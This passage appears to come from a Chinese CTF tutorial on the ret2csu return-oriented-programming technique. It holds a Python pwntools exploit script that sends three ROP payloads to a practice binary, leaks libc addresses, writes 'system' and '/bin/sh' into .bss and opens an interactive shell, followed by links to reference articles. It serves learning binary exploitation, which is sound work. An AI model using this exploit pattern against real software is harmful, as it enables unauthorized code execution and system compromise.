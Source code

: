 ```python
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
```

# 参考
[好好说话之ret2csu](https://blog.csdn.net/qq_41202237/article/details/105913597)

[ Mac PWN 入门系列（七）Ret2Csu ](https://www.anquanke.com/post/id/205858#h3-3)

[一步一步学ROP之linux_x64篇 – 蒸米](http://www.vuln.cn/6644)

